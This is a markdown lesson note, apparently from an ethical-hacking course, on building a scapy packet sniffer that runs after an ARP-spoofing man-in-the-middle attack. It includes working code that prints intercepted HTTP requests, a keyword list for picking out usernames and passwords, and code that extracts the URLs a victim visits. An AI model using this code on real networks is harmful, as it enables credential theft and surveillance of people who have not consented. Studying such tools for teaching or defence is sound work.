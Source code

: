 ## 06 Packet Sniffer

### What is Packet Sniffing?
Recap ARP Spoofing
* we established our machine as the man-in-the-middle between a target and a gateway
* the packets that the target requests from the gateway flow through our machine
* these packets may contain website information, login and passwords, pictures, etc.
* but we have no way of knowing what's inside them

Why build a Packet Sniffer?
* to analyze and read this information, we need a packet sniffer
* its ulities include:
    * capture data flowing through an interface
    * filter data based on criteria
    * display (or log) useful data

### Building a Packet Sniffer
* again, `scapy` provides a sniffing function to help build our tool
    ```python
    def sniff(interface: str) -> scapy.Packet:
    scapy.sniff(
        iface=interface,
        store=False,        # don't store data
        prn=process_packet, # func to process sniffed packet
        filter=""           # ARP, UDP, TCP, BPF
    )
    ```
* although there are many supoorted filters, there is currently no included one for HTTPS 
    * there is add-on library for that [scapy_http](https://github.com/invernizzi/scapy-http)
    * install with `pip3 install scapy_http`
    * import with `from scapy.layers import http`
* now, we can print packets if they contain an HTTP-Request
    ```python
    def process_packet(packet: scapy.Packet):
        if packet.haslayer(http.HTTPRequest):
            if packet.haslayer(scapy.Raw):
                print(packet[scapy.Raw].load)
    ```
    * almost everything send of the browser is requested by HTTP (we'll later upgrade to HTTPS)
    * ideally, we want just username and password

### Extracting Data
Finding Login-Data
* within the raw-load of the HTTP-Request, you can usually find the username and password for the login (if the user has entered it)
* in order to filter them out from other raw-load data, we have search it
    * the information is passed by variables named by the web developers, so it is good to check for multiple keywords
    * searching for sub-strings
    ```python
    KEYWORDS = ["user", "username", "login", "email", "password", "pass"]

    for kw in KEYWORDS:
        if kw in str(load):
            print(load)
            break
    ```

Extracting URLs
* other useful information to find may be URLs that the target has visited
* the HTTP-Request layer also contains the URL consisting of two fields
    * 1 is the `host` or domain name
    * 2 is the specific `path` or address
    ```python
    # extract URL
    url = packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
    print(url)
    ```